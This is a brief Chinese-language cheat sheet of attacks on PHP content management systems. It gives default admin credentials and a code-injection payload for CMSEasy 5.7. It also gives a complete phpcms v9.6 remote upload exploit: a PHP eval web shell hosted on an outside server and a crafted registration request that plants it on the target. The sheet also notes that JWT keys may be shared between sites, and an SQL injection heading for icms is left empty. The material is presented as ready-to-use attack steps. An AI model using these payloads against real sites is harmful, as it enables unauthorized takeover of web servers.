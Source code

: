 phpcms：
帝国cms
苹果cms
Drupal
wordpress
discuz


同一套系统的不同站点的jwt加密密钥可能相同。


^
#### **cmseasy php系统v5.7**
admin/admin
后台模板-自定义标签，使用payload，预览即可。
```
1111";}<?php phpinfo() ?>
```


^
## **phpcms v9.6**
安装路径/install/install.php
存在远程任意文件上传
```
http://xx.xx.xx.xx/1.txt存放内容如下:
<?php @eval($_POST[1]);?>
```
注册抓包改包
```
POST /index.php?m=member&c=index&a=register&siteid=1 HTTP/1.1

siteid=1&modelid=11&username=test452&password=test2123&email=test2154@163.com&info[content]=<img src=http://xx.xx.xx.xx/1.txt?.php#.jpg>&dosubmit=1&protocol=
```
此时会回显上传的路径


^
## **icms**
sql注入
```

```